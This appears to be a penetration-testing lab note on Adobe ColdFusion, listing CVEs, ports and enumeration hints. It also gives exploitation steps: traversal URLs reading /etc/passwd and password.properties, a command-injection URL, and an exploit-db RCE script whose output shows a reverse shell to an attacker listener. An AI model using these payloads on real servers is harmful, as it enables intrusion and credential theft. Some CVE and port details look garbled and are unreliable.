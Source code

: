 # Cold Fusion
## info
ColdFusion is a programming language and a web application development platform based on Java.  
ColdFusion Markup Language (CFML) is the proprietary programming language used in ColdFusion to develop dynamic web applications. It has a syntax similar to HTML, making it easy to learn for web developers. CFML includes tags and functions for database integration, web services, email management, and other common web development tasks.  
Thanks to its built-in functions and features, CFML enables developers to create complex business logic using minimal code. Moreover, ColdFusion supports other programming languages, such as JavaScript and Java, allowing developers to use their preferred programming language within the ColdFusion environment.  
## common vulnerabilities
* CVE-2021-21087: Arbitrary disallow of uploading JSP source code
* CVE-2020-24453: Active Directory integration misconfiguration
* CVE-2020-24450: Command injection vulnerability
* CVE-2020-24449: Arbitrary file reading vulnerability
* CVE-2019-15909: Cross-Site Scripting (XSS) Vulnerability
## ports
<pre>
Port  Number Protocol  Description  
80    HTTP	           Used for non-secure HTTP communication between the web server and web browser.  
443   HTTPS	           Used for secure HTTP communication between the web server and web browser. Encrypts the communication between the web server and web browser.  
1935  RPC	             Used for client-server communication. Remote Procedure Call (RPC) protocol allows a program to request information from another program on a different network device.  
25    SMTP	           Simple Mail Transfer Protocol (SMTP) is used for sending email messages.  
8500  SSL	             Used for server communication via Secure Socket Layer (SSL).  
5500  Server Monitor	 Used for remote administration of the ColdFusion server.  
</pre>
## enumeration (identifing ColdFusion)
* nmap scanning
* file extensions (.cfm, .cfc)
* HTTP response headers ("Server: ColdFusion" or "X-Powered-By: ColdFusion")
* error messages
* default files ("admin.cfm" or "CFIDE/administrator/index.cfm")

on port 8500 maybe path traversal is enabled  
should do look around the files that are hosted  
## exploitation
public exploits are available in exploit-db (or use of searchsploit)  
### CVE-2010-2861 (Directory Traversal) (Adobe ColdFusion 9.0.1 and earlier versions)
vulnerable files:
* CFIDE/administrator/settings/mappings.cfm
* logging/settings.cfm
* datasources/index.cfm
* j2eepackaging/editarchive.cfm
* CFIDE/administrator/enter.cfm
poc's:
<pre>
http://example.com/index.cfm?directory=../../../etc/&file=passwd
http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
$ python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
</pre>
### Unauthenticated RCE example
<pre>
http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt
(Url decoded): http://www.example.com/index.cfm?; echo "This server has been compromised!" > C:\compromise.txt
</pre>
### CVE-2009-2265 (Unauthenticated RCE) (Adobe ColdFusion versions 8.0.1 and earlier versions)
<pre>http://www.example.com/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=</pre>
<pre>
$ searchsploit -p 50057

  Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50057
     Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
File Type: Python script, ASCII text executable

Copied EDB-ID #50057
</pre>
<pre>
if __name__ == '__main__':
  # Define some information
  lhost = '10.10.14.55' # HTB VPN IP
  lport = 4444 # A port not in use on localhost
  rhost = "10.129.247.30" # Target IP
  rport = 8500 # Target Port
  filename = uuid.uuid4().hex
</pre>
<pre>
$ python3 50057.py 

Generating a payload...
Payload size: 1497 bytes
Saved as: 1269fd7bd2b341fab6751ec31bbfb610.jsp
...
Executing the payload...
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.247.30.
Ncat: Connection from 10.129.247.30:49866.
</pre>

